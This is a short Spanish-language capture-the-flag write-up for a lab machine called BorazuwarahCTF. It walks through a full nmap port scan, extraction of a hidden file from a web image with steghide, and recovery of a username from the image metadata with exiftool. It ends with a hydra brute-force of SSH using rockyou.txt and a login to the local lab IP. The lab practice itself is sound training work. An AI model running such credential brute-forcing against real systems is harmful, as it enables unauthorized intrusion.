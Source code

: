 
**Autor:** [BorazuwarahCTF

**Dificultad:** Muy Fácil

**Fecha de creación:** 28/05/2024


DESPLIEGUE

```
bash auto_deploy.sh borazuwarahctf.tar
```


![Img](./images/1.png)






------------------------
PROCEDIMIENTO:

Tenemos la IP: 
```
172.17.0.2
```



---------------------------

RECONOCIMIENTO

```
nmap -p- -sS -sV -sC --min-rate 5000 -n -vvv -Pn 172.17.0.2
```

`-p-` ⮞ aplicar reconocimiento a todos los puertos  
`--open` ⮞ solo a los que estén abiertos  
`--min-rate 5000` ⮞ para enviar paquetes más rápido  
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida  
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla  
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)  
`-Pn` ⮞ ignora si esta activa o no la IP  
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)


![Img](./images/2.png)



Nos vamos a la página web y nos sale :


![Img](./images/3.png)


Nos descargamos la imagen y veremos si tiene algún archivo oculto. Haremos el siguiente comando:

```
steghide extract -sf imagen.jpeg
```

![Img](./images/4.png)


```
cat secreto.txt
```

![Img](./images/5.png)


Lo cual nos da una pista. Buscaremos  más información dentro de esta imagen como son los metadatos , usaremos `exiftool`, por lo cual usando el comando 

```
exiftool imagen.jpeg
```

![Img](./images/6.png)

Y ahí tenemos un usuario `borazuwarah`

Ahora fuerza bruta. 

```
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![Img](./images/7.png)

```
ssh borazuwarah@172.17.0.2
```
![Img](./images/8.png)


Y ya estamos adentro. 


![](Pasted%20image%2020241120182640.png)
